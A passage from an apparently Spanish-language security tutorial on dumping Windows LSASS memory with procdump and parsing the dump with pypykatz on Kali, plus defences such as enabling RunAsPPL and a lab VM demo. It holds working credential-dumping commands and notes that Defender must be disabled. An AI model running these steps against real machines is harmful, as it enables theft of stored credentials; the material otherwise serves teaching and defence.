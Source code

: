 1. Copia el archivo `.dmp` a tu Kali (por red, USB, o compartido).
2. Usa `pypykatz` para analizarlo:

```bash
pip install pypykatz
pypykatz lsa minidump lsass.dmp
```

✅ Resultado similar a Mimikatz pero sin usar Windows.

---

### ⚠️ Importante: ¿Qué necesitas para que funcione?

| Requisito                   | Motivo                                                |
| --------------------------- | ----------------------------------------------------- |
| Ejecutar como administrador | Acceso a leer la memoria de `lsass.exe`.              |
| Defender desactivado        | Procdump y Mimikatz suelen ser bloqueados.            |
| Mismo idioma                | Mimikatz a veces falla en idiomas que no sean inglés. |

---

### 🛡️ ¿Cómo defenderse de esto?

| Riesgo                                       | Solución                                                          |
| -------------------------------------------- | ----------------------------------------------------------------- |
| Acceso a `lsass.exe`                         | Activar **LSA Protection** (`RunAsPPL`)                           |
| Procdump legítimo usado con fines maliciosos | Bloquear herramientas de Sysinternals si no se usan en producción |
| Usuarios con admin innecesario               | Aplicar principio de menor privilegio                             |

---

### 🔒 Activar Protección de LSASS (opcional)

Impedirá volcados sin exploits del kernel:

```reg
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL" /t REG_DWORD /d "1" /f
```

➡️ Luego **reinicia** el sistema.

---

### 🧪 DEMO PRÁCTICA EN VM (Resumen)

1. En VM Windows, inicia sesión con usuario `admin` y contraseña `Prueba123`.
2. Abre CMD como admin.
3. Ejecuta `tasklist | findstr lsass` → copia el PID.
4. Ejecuta:

```cmd
procdump -accepteula -ma <PID> C:\lsass.dmp
```
